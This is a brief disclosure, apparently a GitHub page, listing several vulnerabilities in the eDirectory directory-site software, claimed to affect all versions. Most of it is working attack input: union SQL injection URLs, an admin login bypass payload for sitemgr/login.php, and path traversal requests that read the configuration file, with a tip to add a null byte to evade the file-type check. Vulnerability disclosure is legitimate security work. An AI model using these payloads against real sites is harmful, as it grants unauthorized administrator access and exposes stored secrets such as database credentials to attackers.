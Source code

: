 # eDirectory Multiple Vulnerabilities

Author: Efren Diaz @elefr3n

Vendor: https://www.edirectory.com/

Reported: yes, without response :D

Software Description: eDirectory is a software to create your own membership website, business directories, yellow pages, coupon sites, local guide, lead gen sites and more.

Version: All

## SQLi
Union SQLi:
```
http://site.com/location.php?type=byId&id=[INT]&childLevel=[INT]&level=[SQLi]
http://site.com/sitemgr/login.php?key=[SQLi]
```

## Admin login bypass by SQLi
Sometimes returns "Invalid key error", then press F5 and you will logged as an administrator :)
```
http://site.com/sitemgr/login.php?key=' union select 0,1,0,'sitemgr' -- -
```

## Authenticated File Dissclosure
Only files with .php extension, but don't forget try nullbyte to avoid that :D
```
http://site.com/sitemgr/langcenter/language_file.php?language_area=front&domain_id=1&language_id=../conf/config.inc
http://site.com/sitemgr/configuration/geography/language/language_file.php?language_area=front&domain_id=1&language_id=../conf/config.inc
```

